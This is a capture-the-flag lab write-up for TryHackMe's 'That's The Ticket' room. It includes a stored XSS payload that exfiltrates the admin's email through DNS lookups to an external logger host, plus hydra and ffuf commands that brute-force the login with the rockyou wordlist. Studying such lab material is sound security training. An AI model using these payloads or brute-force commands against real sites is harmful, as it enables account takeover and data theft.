---
---

# THM - That's The Ticket

NMAP


 
- Visit website:
Register an account

- Inspecting the message field:


- We can try XSS:
(Close off the existing textarea tag first)

```bash
</textarea> <script>alert(1)</Script> 

```
or use prompt(1) instead




- It's vulnerable

- The cookies are set as HttpOnly and could not be extracted by XSS directly



- Room hint:






- Using the XSS vulnerability, do a call back to the DNS logger (above)
```javascript
</textarea> 

```
- Received 4 hits (3 from us and once from the server - maybe admin)




- Get Admin's email:



```javascript
</textarea>
<script>
    var email_first = document.getElementById("email").innerHTML.split("@")[0];
    var email_second = document.getElementById("email").innerHTML.split("@")[1];
    var href = "http://localhost." + email_first + "." + email_second + ".40a18b725233ea050562beb6ceaef55d.log.tryhackme.tech/test";
    new Image().src = href;
</script>

```



Don't need subdomain in there really (localhost) - still works




- Got admin email:
**adminaccount@itsupport.thm**

- Bruteforce the login site:
```bash
hydra -l adminaccount@itsupport.thm -P /usr/share/wordlists/rockyou.txt 10.10.41.5 http-post-form "/login:email=adminaccount@itsupport.thm&password=^PASS^:Invalid"

ffuf -w /usr/share/wordlists/rockyou.txt -d "email=adminaccount@itsupport.thm&password=FUZZ" -u http://10.10.190.207/login -fw 475 -H "Content-Type: application/x-www-form-urlencoded"

```
**<u>Another way:</u>**

Clusterbomb - Save POST request from Burp and edit the parameters

```bash
ffuf -request post.txt -request-proto http -mode clusterbomb -w user.txt:UFUZZ -w /usr/share/wordlists/rockyou.txt:PFUZZ -fc 302

```



**123123**

- Log in with admin:




